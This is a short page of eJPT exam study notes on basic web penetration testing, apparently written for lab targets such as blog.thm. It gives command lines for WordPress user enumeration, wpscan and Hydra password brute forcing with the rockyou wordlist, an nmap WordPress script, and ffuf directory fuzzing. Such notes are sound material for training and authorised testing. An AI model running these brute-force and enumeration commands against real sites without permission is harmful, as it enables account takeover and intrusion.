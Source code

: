 ## Web Penetration Test (Basic)

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Wordpress Enumeration
```
http://blog.thm/wp-json/wp/v2/users/
```
In this folder usually we can find something useful.

### WPSCAN
```
wpscan —url http://blog.htm —enumerate p
wpscan --url http://blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```
### NMAP
```
sudo nmap 127.0.0.1 -p 1234 -sS -sV --script=http-wordpress-enum --script-args http-wordpress-enum.search-limit=6000
```
### Hydra Web Brute Force
```
hydra -l <username> -P <wordlist> 10.10.92.234 http-post-form “/login:username=^USER^&password=^PASS^:/login” -V
```
"<path>:<login_credentials>:<invalid_response>"


### FFUF
```
ffuf -u http://10.10.229.115/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
```
You could also use any custom keyword instead of FUZZ, you just need to define it like this wordlist.txt:KEYWORD.
```
ffuf -u http://10.10.229.115/NORAJ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt:NORAJ
```
```
ffuf -u http://10.10.229.115/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt
```
```
-fc 403 - hide responde.code 403
-mc 200 - isolate response code 200
-fs 0 - filters out 0 byte file
-fr ‘/\..*’ - filter out files that begin with .
-x http://127.0.0.1:8080 - we can send all the traffic to BurpSuite
```
